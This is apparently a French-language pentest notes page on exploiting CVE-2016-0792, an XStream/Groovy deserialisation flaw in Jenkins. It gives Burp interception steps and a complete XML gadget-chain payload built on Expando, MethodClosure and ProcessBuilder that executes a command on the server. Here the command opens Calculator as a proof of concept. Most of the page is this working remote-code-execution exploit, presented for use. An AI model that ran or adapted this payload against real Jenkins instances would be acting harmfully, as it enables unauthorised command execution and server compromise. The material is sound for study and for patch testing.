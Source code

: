 ```yaml
---
description: Unserialisation
---
```


# CVE-2016-0792 Jenkins

Cet Exploit Marche dans le cas ou Groovy est présent dans le classpath et que le code est parsé par Xstream. Cette Technique reste spécifique a la JVM.



### Exploitation

<figure><img src="../../.gitbook/assets/Jenkins_Creation.JPG" alt=""><figcaption><p>Il faut dabord se rendre dans la fenetre de creation d'item avec un external job pour capturer la methode post avec burp</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/burp.JPG" alt=""><figcaption></figcaption></figure>

* S'assurer de la methode
* Modifier le content-type pour du 'text/xml'
* Observer le resultat dans la réponse.



Dans le cas présent l'app calculator va s'ouvrir.

<pre class="language-groovy"><code class="lang-groovy"><strong>&#x3C;map>
</strong>  &#x3C;entry>
    &#x3C;groovy.util.Expando>
      &#x3C;expandoProperties>
        &#x3C;entry>
          &#x3C;string>hashCode&#x3C;/string>
          &#x3C;org.codehaus.groovy.runtime.MethodClosure>
            &#x3C;delegate class="groovy.util.Expando" reference="../../../.."/>
            &#x3C;owner class="java.lang.ProcessBuilder">
              &#x3C;command>
                &#x3C;string>open&#x3C;/string>
                &#x3C;string>/Applications/Calculator.app&#x3C;/string>
              &#x3C;/command>
              &#x3C;redirectErrorStream>false&#x3C;/redirectErrorStream>
            &#x3C;/owner>
            &#x3C;resolveStrategy>0&#x3C;/resolveStrategy>
            &#x3C;directive>0&#x3C;/directive>
            &#x3C;parameterTypes/>
            &#x3C;maximumNumberOfParameters>0&#x3C;/maximumNumberOfParameters>
            &#x3C;method>start&#x3C;/method>
          &#x3C;/org.codehaus.groovy.runtime.MethodClosure>
        &#x3C;/entry>
      &#x3C;/expandoProperties>
    &#x3C;/groovy.util.Expando>
    &#x3C;int>1&#x3C;/int>
  &#x3C;/entry>
&#x3C;/map>
</code></pre>
